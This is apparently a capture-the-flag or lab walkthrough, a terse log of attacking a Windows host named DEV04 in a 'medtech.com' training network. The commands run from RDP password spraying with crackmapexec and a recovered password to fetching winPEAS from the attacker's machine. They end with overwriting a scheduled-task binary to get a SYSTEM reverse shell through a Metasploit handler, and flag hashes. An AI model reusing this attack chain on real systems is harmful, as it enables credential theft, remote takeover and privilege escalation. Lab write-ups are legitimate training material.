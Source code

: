 # Remember the above that DEV04 is able to RDP, lets try with password spray first
proxychains -q crackmapexec rdp 172.16.219.12 -u user.txt -p pass.txt -d medtech.com --continue-on-success
...
RDP         172.16.219.12   3389   DEV04            [+] medtech.com\yoshi:Mushroom! (Pwn3d!)
...
proxychains -q xfreerdp /cert-ignore /u:medtech.com\\yoshi /p:Mushroom\! /v:172.16.219.12 +clipboard +drive:/home/kali/Desktop,/smb
PS C:\Users\yoshi\Desktop> type .\local.txt
e1a547095f672913a0b0db9dc679ac0a

# Lets check winpeas
PS C:\Users\yoshi\Desktop> iwr -uri http://192.168.45.195:8088/Windows/winPEASx64.exe -Outfile winpeas.exe
# Add Color to CMD
PS C:\Users\yoshi\Desktop> REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1 
C:\Users\yoshi\Desktop> .\winpeas.exe
...
C:\Users\yoshi\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
File Permissions "C:\TEMP\backup.exe": yoshi [WriteData/CreateFiles]
...

# Found a backup.exe able to write by yoshi
# Check if it is a service
C:\TEMP> cmd /c sc qc backup
# Unfortunately nope
# Check if scheduler task will run this backup file
C:\TEMP> schtasks /query /fo LIST /v
PS C:\Temp> copy .\cute.exe C:\Temp\backup.exe

# Go to MSFConsole
[*] Command shell session 4 opened (192.168.45.195:8888 -> 192.168.219.121:63112) at 2024-05-30 08:45:44 -0700
msf6 exploit(multi/handler) > sessions -i 4
C:\Windows\system32>whoami
nt authority\system
# Find flags
Get-ChildItem -Path C:\Users -Filter *.txt -Recurse
PS C:\Users\Administrator\Desktop> type proof.txt
d659731cc6abe49c08e9338a30ed9d3c
